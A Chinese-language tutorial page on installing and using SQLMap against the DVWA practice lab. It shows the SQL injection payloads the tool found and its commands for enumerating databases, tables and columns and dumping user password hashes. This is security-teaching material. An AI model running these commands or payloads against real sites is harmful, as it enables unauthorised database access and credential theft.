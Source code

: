 ```yaml
---
slug: /net-security/06/02
---
```


# 渗透测试工具 SQLMap

🏠 官网：[https://sqlmap.org/](https://sqlmap.org/)

## 安装

Linux/MacOS  下安装 SQLMap：

1. 将项目克隆到本地文件夹 

```bash
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

2. 进入到文件夹 `sqlmap-dev` 中，执行更新

```bash
python3 sqlmap.py --update
```

3. 查看帮助信息

```bash
python3 sqlmap.py -hh
```

## 简介

🧨 **sqlmap** 是一个开源的渗透测试工具，它自动化了检测和利用 SQL 注入漏洞以及接管数据库服务器的过程。

支持的数据库有：*MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase, SAP MaxDB, Informix, MariaDB, MemSQL, TiDB, CockroachDB, HSQLDB, H2, MonetDB, Apache Derby, Amazon Redshift, Vertica, Mckoi, Presto, Altibase, MimerSQL, CrateDB, Greenplum, Drizzle, Apache Ignite, Cubrid, InterSystems Cache, IRIS, eXtremeDB, FrontBase, Raima Database Manager, YugabyteDB, ClickHouse and Virtuoso*

🫱 更多见官网介绍



## 基本使用

对 DVWA 靶场进行扫描：`python3 sqlmap.py -u "http://YOUR_IP_ADDRESS:8080/vulnerabilities/sqli?id=123&Submit=Submit#" --cookie="PHPSESSID=98vc49t5lips67c82cp3glpft4; security=low"  --batch`

扫描结果：

```bash
sqlmap identified the following injection point(s) with a total of 151 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: id=123' OR NOT 1015=1015#&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=123' AND (SELECT 8471 FROM(SELECT COUNT(*),CONCAT(0x716a767171,(SELECT (ELT(8471=8471,1))),0x7170626271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- mKpW&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=123' AND (SELECT 2021 FROM (SELECT(SLEEP(5)))dEdm)-- KgwR&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=123' UNION ALL SELECT CONCAT(0x716a767171,0x68756a4a675242784f43596a4d505a4e7243436551716275536c646c535a64534354787044637977,0x7170626271),NULL#&Submit=Submit
---
[19:30:35] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 8 (jessie)
web application technology: Apache 2.4.10
back-end DBMS: MySQL >= 5.0
```



## 进阶使用

1. 获取库：`python3 sqlmap.py -u "http://YOUR_ADDRESS:8080/vulnerabilities/sqli?id=123&Submit=Submit#" --cookie="PHPSESSID=98vc49t5lips67c82cp3glpft4; security=low"  --batch --dbs`

```
...
[09:23:51] [INFO] fetching database names
available databases [4]:
[*] dvwa
[*] information_schema
[*] mysql
[*] performance_schema
...
```

2. 获取表：`python3 sqlmap.py -u "http://YOUR_ADDRESS:8080/vulnerabilities/sqli?id=123&Submit=Submit#" --cookie="PHPSESSID=98vc49t5lips67c82cp3glpft4; security=low"  --batch -D dvwa --tables`

```
...
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+
...
```

3. 获取表的字段：`python3 sqlmap.py -u "http://YOUR_ADDRESS:8080/vulnerabilities/sqli?id=123&Submit=Submit#" --cookie="PHPSESSID=98vc49t5lips67c82cp3glpft4; security=low"  --batch -D dvwa -T users --co
   lumns`

```
...
Database: dvwa
Table: users
[8 columns]
+--------------+-------------+
| Column       | Type        |
+--------------+-------------+
| user         | varchar(15) |
| avatar       | varchar(70) |
| failed_login | int(3)      |
| first_name   | varchar(15) |
| last_login   | timestamp   |
| last_name    | varchar(15) |
| password     | varchar(32) |
| user_id      | int(6)      |
+--------------+-------------+
...
```

3. 获取表中指定字段的值：` python3 sqlmap.py -u "http://YOUR_ADDRESS:8080/vulnerabilities/sqli?id=123&Submit=Submit#" --cookie="PHPSESSID=98vc49t5lips67c82cp3glpft4; security=low"  --batch -D dvwa -T users -C user,password --dump`

```
...
Database: dvwa
Table: users
[5 entries]
+---------+---------------------------------------------+
| user    | password                                    |
+---------+---------------------------------------------+
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
+---------+---------------------------------------------+
...
```



